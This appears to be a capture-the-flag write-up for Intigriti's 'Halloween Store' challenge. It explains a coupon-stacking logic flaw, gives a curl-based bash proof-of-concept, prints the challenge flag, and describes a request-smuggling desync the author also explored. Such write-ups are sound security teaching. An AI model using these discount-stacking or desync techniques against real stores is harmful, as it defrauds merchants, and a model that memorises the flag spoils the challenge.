






+++
title = 'Intigriti | Challenge 1026 Writeup'
date = 2026-10-23T00:00:00-01:00
draft = false
tags = ['Business Logic']
description= "One coupon, two coupons, three coupons, and the flag is yours ^.^"
+++

Another Intigriti challenge and another writeup to detail its solution. The "Halloween Store" challenge involved an online store offering sweets. Our goal as players was to buy _The Midnight Collection_, the Halloween-themed archive that costs €666, while our balance was only €66. How? Well.. One, two, three coupons, and the flag is yours!
    
### Recon

We land on the [challenge page](https://challenge-1026.challenges.intigriti.io/) and decide to explore _The Midnight Collection_. (Kudos to Globules for challenge UI, one could feel the automn vibes 🍂)



We observe that we have a discount code, `NIGHT20`, and after subscribing to the newsletter, we obtain another discount code, `NEWS30`.

We check the cart. After testing, we also see that a single application of either discount codes only reduces the total to a value still above our €66 credit. The `canCheckout` flag remains `false`. We need to accumulate more discount.

But..
We also observe a first issue with the discount code: it is not updated in real time. In other words, when we add items, then apply a code, then add new items, we see that the discount still apply only to the first batch. 

For instance, when adding two items and applying the discount code :


After adding another item : 


To apply the discount to all items, i.e. the new total, we need to remove the code and reapply it.

With this flaw, one could think that they can add a lot of items apply discount, then remove the items (and do not reapply the code to keep the original discount). However, we neither can remove items from the cart, nor can add the same item more than once to the cart.

We need to find another solution.

### The Logic Flaw

The discount endpoint does not enforce a global "one promotion per cart" rule. It checks only that the specific code does not correspond to the latest one applied. 

This means two different codes can coexist, and each contributes its percentage independently. More importantly, the same code can be applied again after applying a different code, and the server does not track a "has been used" state per session.

By alternating the (re)application of the two codes one after the other, the discount accumulates beyond the sum of the two percentages.

### Exploit

1. Add _The Midnight Collection_ to the cart (€666.00).
2. Apply `NIGHT20`: `discount: €133.20`, `total: €532.80`.
3. Apply `NEWS30` : the server accepts both codes; `discount` becomes €133.20 + €199.80 = €333.00, `total: €333.00`.
5. Apply `NIGHT20` again. The server does not reject it. The discount grows because the server adds the new discount to the existing total, and updates the count of `NIGHT20` to two.
6. Repeat by alternating the two codes, until `canCheckout` becomes `true`.

### PoC

```bash
#! /bin/bash
host="challenge-1026.challenges.intigriti.io"
# getting our session cookie
printf "\e[1;34msession creation\e[0m\n"
session=$(curl -sI "https://$host/api/session" | sed -n 's/.*session=\([^;]*\);.*/\1/p')
cookie="session=$session"

# subscribing to newsletter
printf "\e[1;34mnewsletter sub\e[0m\n"
curl "https://$host/api/newsletter" -H "Cookie: $cookie" -X POST --data-raw '{"email":"test@test.test"}'

# adding the midnight collection
printf "\e[1;34m\nadding the collection\e[0m\n"
curl -s -X POST "https://$host/api/cart/items" \
  -H "Content-Type: application/json" -H "Cookie: $cookie" \
  --data-raw '{"productId":"midnight-vault"}'


for i in {1..2}; do  # actually twice is enough in our case ^^

printf "\e[1;34m\nDiscount Application $i\e[0m \n"
# applying 1st code
printf "\e[1;35m \n Code 1\e[0m \n"
curl "https://$host/api/cart/coupon" -X POST -H "Cookie: $cookie" --data-raw '{"code":"NIGHT20"}'

# applying 2nd code
printf "\e[1;35m \n Code 2\e[0m \n"
curl "https://$host/api/cart/coupon" -X POST -H "Cookie: $cookie" --data-raw '{"code":"NEWS30"}'

done 

# checkout
printf "\e[1;34m\ncheckout and flag\e[0m\n"
curl "https://$host/api/checkout" -X POST -H "Cookie: $cookie" --data-raw '{}' | jq .receipt.flag
```

The flag is returned in the receipt : **INTIGRITI{094638e6-ba2f-4c50-8bb4-41ced0d5debd}**


---

## Halloween Store - The journey :

Writing the solution directly makes it seem a bit straightforward, but tbh, I first noticed another weird observation before discovering the coupon bug and spent some hours digging into it as I thought it was the way to the flag.

Basically, when navigating through the site, sometimes I obtained code `501 Method Not Implemented` with a message such as `Unsupported method ('{"productId":"truffle"}POST')` or `Unsupported method ('{"urls":["http://example.com"],...}GET')`. This was a red herring caused by request smuggling desynchronization on backend.

Likely, the front-end forwards HTTP/2 requests to a Python `http.server` backend. When a request arrives with a `Content-Length` that does not match the actual body bytes, the extra bytes remain in the backend socket buffer. The next request on that connection is then prefixed with those leftover bytes, causing Python to parse an invalid method such as `{"productId":"truffle"}POST` and return a `501`.

I spent considerable time trying to weaponize this. I successfully smuggled requests that added items for instance (confirmed by the cart response), but did not succeed to go further with this to extract the flag.

For instance, when sending the following request :


The berries got added to the cart. 


The lesson when looking back at both vulns, it’s a reminder of how hacking actually goes!
We found a 501 desync fingerprint with that tiny JSON body stuck tight to the method. But because the backend re-validated the smuggled request, our desync turned out to be just a diagnostic curiosity instead of a usable exploit. Task failed successfully :') ? 

In the end, the path to the flag was much more down-to-earth : The server just trusted the client to handle the promotion lifecycle and missed a check regarding the global use of a discouunt code in the session which let us stack several discounts. In a nutshell, the simple little logic flaw is the one that has the bigger impact.

